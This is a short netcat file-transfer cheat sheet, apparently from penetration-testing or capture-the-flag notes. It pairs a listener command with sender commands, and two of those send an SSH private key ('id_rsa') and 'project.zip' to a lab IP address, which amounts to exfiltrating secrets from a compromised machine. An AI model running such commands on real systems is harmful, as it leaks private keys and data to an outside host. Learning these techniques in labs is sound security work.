 
on your machine:
`nc -lp 12345 > received_filename.ext`

on the machine where you want the file:
`nc 10.18.21.236 12345 < filename_to_send.ext`
`nc 10.10.14.161 12345 < id_rsa`
`nc 10.10.14.161 12345 < project.zip`

check file size to see when finished, then just crtl+c

